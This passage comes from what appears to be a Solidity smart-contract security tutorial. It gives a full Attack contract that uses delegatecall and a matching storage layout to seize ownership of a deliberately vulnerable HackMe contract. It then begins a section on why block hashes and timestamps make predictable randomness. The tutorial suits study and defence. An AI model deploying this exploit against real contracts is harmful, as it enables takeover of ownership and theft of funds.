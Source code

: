     constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // Make sure the storage layout is the same as HackMe
    // This will allow us to correctly update the state variables
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // this will execute doSomething function HackMe contract. 
        // Then HackeMe contract delegatecall the Lib contract and 
        // it will change HackMe contract's lib state variable to our address
        hackMe.doSomething(uint(uint160(address(this))));
        // pass any number as input, the function doSomething() below will
        // be called and it will execute Attacker contract doSomething function and 
        // change the HackMe contract's owner address to Attacker contract's address
        hackMe.doSomething(1);
    }

    // function signature must match HackMe.doSomething()
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}

```


# 6. Sources for randomness

Code: https://solidity-by-example.org/hacks/randomness

```blockhash``` and ```block.timestamp``` are not reliable sources for randomness

GuessTheRandomNumber is a game where you win 1 Ether if you can guess the
pseudo random number generated from block hash and timestamp.

At first glance, it seems impossible to guess the correct number.
But let's see how easy it is win.

1. Alice deploys GuessTheRandomNumber with 1 Ether
2. Eve deploys Attack
3. Eve calls Attack.attack() and wins 1 Ether

What happened?
Attack computed the correct answer by simply copying the code that computes the random number.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;
